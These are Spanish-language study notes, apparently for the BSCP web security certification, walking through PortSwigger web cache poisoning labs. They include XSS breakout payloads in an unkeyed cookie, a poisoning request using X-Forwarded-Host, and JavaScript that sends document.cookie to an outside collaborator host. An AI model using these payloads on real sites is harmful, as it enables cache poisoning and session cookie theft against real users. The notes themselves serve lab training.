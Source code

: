 ![[Pasted image 20250220105313.png]]

En el server exploit dejamos el endpoint tal cual como el recurso legitimo del lab `/resources/js/tracking.js` con el contenido de un `alert(document.cookie)` →

![[Pasted image 20250220105448.png]]
#### Para el proposito del BSCP, en server exploit podemos guardar realmente: 

```js
document.location='https://OASTIFY.COM/?cookies='+document.cookie;
```

Y lo guardamos y cuando tenemos la `request` vemos que se carga exitosamente. 

![[Pasted image 20250220105549.png]]
### LAB: Web cache poisoning with an unkeyed cookie XSS

* `Cookie: session=VALUE; NameWeirdCookie=value`
* Se ve reflejada el valor de la NameWeirdCookie en un `Data = {"host""...", "frontend":"ValueOfWeirdCookie"}`
![[Pasted image 20250220110256.png]]

```js
NameWeirdCookie=test"-alert(1)-"test
fehost=someString"-alert(1)-"someString //LAB ORIGINAL.
```

### LAB: Multiples Headers poison cache  `cookie stole`

> Este laboratorio se vulnera cuando enviamos la petición y el caché la almacena, en nuestro server exploit dejamos **el endpoint como /resources/js/tracking.js** debido a que el home legitimo de la aplicación contiene un script que se procesa en el home siempre que se recarga el cual es el endpoint vulnerable que podemos usar para hacernos pasar por ese endpoint en el server exploit y poner el alert(document.cookie) ahora bien, entonces mandamos la request de arriba tantas veces hasta que envenemos la caché y entonces cuando el usuario vaya a abrir la pagina de inicio automaticamente por debajo cargará el script /resources/js/tracking.js que en realidad se carga desde el dominio del server exploit que contiene el alert(document.cookie) y así es como producimos el envenenamiento y ataque exitoso.

* Con param miner podemos encontrar esta vulnerabilidad, igual que burp scanner. 

![[Pasted image 20250220110823.png]]

* En el server exploit dejamos el `document.location`  pa robarnos la triple mega carechimba cookie. 

```js
GET /resources/js/tracking.js?cb=123 HTTP/2
Host: TARGET.net
X-Forwarded-Host: EXPLOIT.net
X-Forwarded-Scheme: nothttps

//Y EN EL SERVER EXPLOIT:
document.location='https://OASTIFY.COM/?poisoncache='+document.cookie;

//CLARO PARA LA SOLUCION DEL LAB ES ->
alert(document.cookie);
```
